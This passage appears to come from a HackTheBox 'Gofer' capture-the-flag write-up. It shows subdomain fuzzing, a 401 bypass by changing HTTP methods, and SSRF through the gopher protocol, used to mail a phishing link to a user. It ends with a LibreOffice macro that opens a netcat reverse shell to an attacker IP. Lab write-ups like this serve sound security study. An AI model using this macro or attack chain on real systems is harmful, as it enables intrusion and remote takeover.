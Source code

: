 The first rounds of discovery didn't turn up much. No additional paths were discovered so we need to see if there are subdomains. For this part, be mindful of the `/etc/hosts` file. Only domains associated with the target IP will be resolved. Since we don't know the subdomain yet, we need to use a technique to check. Fortunately we can fuzz through the `Host` header. We hit a subdomain named `proxy`.

Okay, we avoided defeat this time. But we're not yet out of the woods. Notice that our fuzz returned `HTTP 401`. That's not good. We're locked out and this was our only lead up until recently. Being a proxy, there might be a way to probe it deeper, but how? For that we'll need to fuzz further:

<p align="center"><img src="{{ site.url }}/assets/img/htb/gofer/fuzz2.png" /></p>
After several rounds of fuzzing I was somewhat ready to call it a day but then I noticed something interesting. There are some methods not implemented. That could be an interesting venture. What if we paired it with path/file discovery?

<p align="center"><img src="{{ site.url }}/assets/img/htb/gofer/fuzz.png" /></p>
Wow, we actually found something. Turns out there are some specific methods not implemented. But any other method will do:
<p align="center"><img src="{{ site.url }}/assets/img/htb/gofer/fuzz3.png" /></p>
<p align="center"><img src="{{ site.url }}/assets/img/htb/gofer/fuzz4.png" /></p>
<p align="center"><em>If you're wondering, no this is not a reskinned burpsuite. Check out <a href="https://caido.io" target="_blank">caido</a> which is sublime for burp I guess?</em></p>

Turns out I can substitute any method name as long as it is not `TRACE` or `CONNECT`. We found our next entry point `index.php`! And it seems to require a `URL` parameter. What if we were a bit naughty with this parameter?

<p align="center"><img src="{{ site.url }}/assets/img/htb/gofer/rfi1.png" /></p>
<p align="center"><img src="{{ site.url }}/assets/img/htb/gofer/rfi2.png" /></p>

Cool, we got ourselves SSRF. But this is Gofer right? There must be some sense to this challenge with that kind of name. So we'll need to make use of SSRF w/ gopher protocol.

### SSRF w/ gopher
Looking at [this](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery){:target="_blank"}, there's something we can try which is a synthesis of details we've gathered:
* The machine name
* Email is only available internally, as evidenced by port 25 being filtered and the backed up email
* Someone who likes to click links from emails
* Support for ODT documents via Libreoffice.

So our plan of attack may look something like this

1. Create an ODT document w/ a malicious macro (Done)
2. Edit the macro to create a reverse shell to a netcat listener
3. Serve the document via http server (Done)
4. Trigger SSRF via the Proxy + gopher protocol
5. Target the SMTP service to mail Jocelyn a link to our ODT document.

We will use this macro:
```
REM  *****  BASIC  *****

Sub Main
	Shell("nc 10.10.14.114 4444 -e sh")
End Sub
```
